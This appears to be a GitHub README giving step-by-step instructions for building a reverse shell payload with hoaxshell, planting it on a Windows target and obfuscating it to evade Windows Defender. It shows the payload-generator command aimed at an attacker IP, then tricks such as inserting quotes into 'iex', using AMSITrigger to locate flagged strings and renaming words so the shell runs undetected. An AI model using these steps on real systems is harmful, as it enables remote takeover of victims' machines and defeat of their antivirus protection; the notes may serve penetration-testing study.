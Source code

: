 ## Create Reverse Shell Payload Via Hoaxshell
1) `hoaxshell.py -s IP_ADD -r -H "Authorization"`
2) Copy payload from kali into target
3) Obfuscate before executing command in target windows cmd line
4) ![image](https://user-images.githubusercontent.com/55113729/214117555-0a496ab7-25f5-4d8e-861e-67cec5c1b353.png)
5) Adding `'` in between `iex` helps to trick windows defender into thinking this is a regular, safe command and NOT a payload, allowing for execution into hoaxshell rev shell
6) Didnt bypass?...
Use https://www.rythmstick.net/posts/amsitrigger/ in order to see where windows defender does not like the payload and obfuscate it
7) ![image](https://user-images.githubusercontent.com/55113729/214127558-01d1d9a4-18a4-42da-a413-ff013ba0c599.png)
it does not like anything after `-Headers...` so we must take a random word out of it and insert it as a variable
8) ![image](https://user-images.githubusercontent.com/55113729/214127786-a12f54ea-a3e6-4363-902d-31e08e8345b5.png)
now we can execute (changed `none` to `xxxx` or something other than `none` in order to avoid exception by Defender
9) ![image](https://user-images.githubusercontent.com/55113729/214127940-b69041d3-a35c-4578-a9a3-364949d61b8a.png)
10) Enjoy!
